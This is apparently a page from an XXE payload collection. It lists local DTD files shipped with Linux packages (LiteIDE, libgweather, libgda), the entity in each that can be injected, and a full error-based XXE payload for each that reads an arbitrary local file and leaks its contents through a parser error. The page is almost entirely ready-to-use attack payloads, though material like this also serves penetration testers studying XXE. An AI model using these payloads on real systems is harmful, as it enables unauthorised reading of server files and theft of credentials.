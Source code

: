  --- 

**DTD File:** `/usr/share/liteide/liteeditor/kate/language.dtd`

**Injectable entity:** `%commonAttributes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/liteide/liteeditor/kate/language.dtd">

    <!ENTITY % commonAttributes '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/libgweather/locations.dtd`

**Injectable entity:** `%name`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgweather/locations.dtd">

    <!ENTITY % name 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/libgda-5.0/dtd/libgda-server-operation.dtd`

**Injectable entity:** `%paramlist-dtd`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/libgda-5.0/dtd/libgda-server-operation.dtd">

    <!ENTITY % paramlist-dtd '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
```